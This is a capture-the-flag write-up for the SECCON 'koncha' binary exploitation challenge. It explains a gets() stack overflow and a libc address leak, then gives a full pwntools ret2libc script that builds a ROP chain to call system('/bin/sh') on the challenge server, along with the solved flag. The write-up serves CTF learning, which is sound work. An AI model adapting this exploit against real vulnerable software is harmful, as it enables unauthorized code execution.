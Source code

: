 ### koncha-нный write-up

#### TL;DR

* Get libc leak
* Perform ROP

#### Getting to know the binary
If we open the binary in IDA we see a pretty simple main function ![IDA image](/pwn/koncha/assets/IDA_function.png)

`gets()` is clearly the vulnerability here, so considering that the challenge binary has no canary we can easily perform ROP.

#### ROP chain

* Get LIBC leak
    
    When i first launched the binary I noticed one interesting feature: if I don't provide any input and just press ENTER, the output of my name will contain strange bytes.![Leak_pic](/pwn/koncha/assets/nc_output.png) Looking into it, I figured that those bytes, when converted to int, are actually an adress from `LIBC`. Sweet! Now we don't have to worry about ASLR anymore.
    

* Get code execution

    Here we'll use pop_rdi gadget together with address of `"/bin/sh"` string in liband a call to `system`

#### Payload
Overall payload looks something like this

```py
import pwn

# Set up binaries and gadgets
binary = pwn.ELF("./chall", checksec=False)
libc = pwn.ELF("../lib/libc.so.6", checksec=False)
libc.symbols['pop_rdi'] = 0x0000000000023b6a
libc.symbols['ret'] = 0x0000000000022679  # ret gadget to align the stack
    
    
LEAK_OFFSET = 0x1f12e8
    
io = pwn.remote("koncha.seccon.games", 9001)
    
# Get libc leak
io.recvline()
io.sendline(b'')
    
libc_leak = io.recvline()[18:-2]
libc_leak = int.from_bytes(libc_leak, byteorder="little")
libc.address = libc_leak - LEAK_OFFSET
    
pwn.log.success(f"LIBC BASE: {hex(libc.address)}")
    
BINSH_ADDRESS = next(libc.search(b"/bin/sh"))
pwn.log.info(f"BINSH address: {hex(BINSH_ADDRESS)}")
pwn.log.info(f"Sytem() address: {hex(libc.symbols['system'])}")
    
# 0x50 -buffers + 0x8 - saved rbp
payload = pwn.cyclic(0x50 + 0x8)
    
# pop_rdi gadget
payload += pwn.p64(libc.symbols['pop_rdi'])
    
# address of /bin/sh is put in RDI registry
payload += pwn.p64(BINSH_ADDRESS)
    
# Here we align the stack
payload += pwn.p64(libc.symbols['ret'])
    
# And finally call system() with address of "/bin/sh" string as argumet
payload += pwn.p64(libc.symbols['system'])  # call to system()
    
pwn.log.info("Sending the payload now...")
    
io.sendline(payload)
io.recvuntil(b'Goodbye!\n')
    
io.interactive()
```
And so we `cat` the flag `SECCON{I_should_have_checked_the_return_value_of_scanf}`
